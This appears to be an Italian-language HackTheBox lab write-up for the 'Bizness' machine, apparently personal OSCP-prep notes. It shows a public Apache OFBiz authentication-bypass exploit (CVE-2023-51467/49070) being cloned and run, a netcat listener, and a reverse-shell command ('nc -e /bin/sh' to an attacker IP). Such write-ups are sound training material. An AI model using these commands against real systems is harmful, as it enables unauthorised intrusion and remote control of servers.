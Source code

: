 Abbimao diversi codici 200 andiamo ad analizzarli 

`/control/login`
![](../Hackthebox-OSCP-Prepartion/zzz_rev/attachments/bizness2.png)

Ci troviamo difronte ad un form di login di OFBiz vediamo se troviamo qualche vulnerabilità
# GAINING AN INITIAL FOOTHOLD

Cercando su google ci imbattiamo in questa RCE [Apache OFBiz Authentication Bypass Vulnerability (CVE-2023-51467 and CVE-2023-49070)](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass?tab=readme-ov-file)

ci scarichiamo la repository 
```bash
┌──(root㉿kali)-[/home/kali/htb/bizness]
└─# git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git
Cloning into 'Apache-OFBiz-Authentication-Bypass'...
remote: Enumerating objects: 19, done.
remote: Counting objects: 100% (14/14), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 19 (delta 3), reused 7 (delta 1), pack-reused 5
Receiving objects: 100% (19/19), 51.44 MiB | 4.88 MiB/s, done.
Resolving deltas: 100% (3/3), done.
```

leggendo il `README` verifichiamo se il nostro target è vulnerabile all'exploit

```bash
┌──(root㉿kali)-[/home/kali/htb/bizness/Apache-OFBiz-Authentication-Bypass]
└─# python3 exploit.py --url https://bizness.htb
[+] Scanning started...
[+] Apache OFBiz instance seems to be vulnerable.

```

perfetto è vulnerabile procediamo, apriamo un altro terminale e ci mettiamo in ascolto con [Netcat](../Note/Tool/Netcat.md)

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 4445
listening on [any] 4445 ...
```

ed eseguiamo l'exploit
```bash
┌──(root㉿kali)-[/home/kali/htb/bizness/Apache-OFBiz-Authentication-Bypass]
└─# python3 exploit.py --url https://bizness.htb --cmd 'nc -e /bin/sh 10.10.14.21 4445'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
```

Verifichiamo su nc, e siamo dentro.
